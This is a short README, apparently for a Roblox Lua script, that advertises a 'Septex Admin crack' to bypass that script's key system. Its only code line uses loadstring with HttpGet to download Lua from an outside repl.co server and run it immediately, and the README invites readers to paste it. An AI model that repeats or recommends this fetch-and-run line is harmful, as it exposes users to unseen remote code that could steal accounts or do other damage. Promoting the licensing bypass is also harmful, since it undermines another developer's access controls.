
# sustex
![lol](https://i.imgflip.com/3bovka.png?a464880)\
I'm sure you read the description correctly. That's right, a **Septex Admin crack!**
No more annoying key system, just run the script and it will bypass the key system flawlessly.

```lua
loadstring(game:HttpGet("crackserver.mrelxs.repl.co/septex/client", true))()
```
Enjoy your new free admin script. If you want to check the code of this, see crackserver.mrelxs.repl.co/septex/client
